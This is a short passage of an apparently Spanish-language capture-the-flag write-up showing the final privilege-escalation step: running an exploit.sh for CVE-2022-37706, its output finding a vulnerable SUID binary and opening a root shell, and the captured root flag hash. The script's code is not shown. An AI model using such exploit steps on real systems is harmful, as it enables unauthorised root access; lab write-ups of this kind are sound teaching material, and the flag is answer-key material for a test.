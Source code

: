 ```shell
chmod +x exploit.sh
```

```shell
bash exploit.sh
```

Info:

```
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
#
```

Y con esto ya seriamos `root`, por lo que leeremos la flag...

> root.txt (flag2)

```
7d1abced1792429d9344f405b112713a
```
